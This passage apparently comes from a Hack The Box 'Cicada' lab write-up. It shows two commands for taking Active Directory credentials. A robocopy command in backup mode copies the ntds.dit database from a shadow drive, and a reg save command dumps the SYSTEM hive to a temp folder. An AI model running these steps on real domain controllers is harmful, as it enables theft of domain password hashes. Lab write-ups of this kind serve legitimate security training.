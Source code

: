 Now we use robocopy to copy the ntds.dit database file to our shadow drive E:\

```powershell
robocopy /b E:\windows\ntds . ntds.dit
```

![image.png](/assets/images/Cicada_HTB/image%2030.png)

![image.png](/assets/images/Cicada_HTB/image%2031.png)

Now we can save the system.hive too in our temp directory.

```powershell
reg save hklm\system c:\temp\system.hive
```

![image.png](/assets/images/Cicada_HTB/image%2032.png)
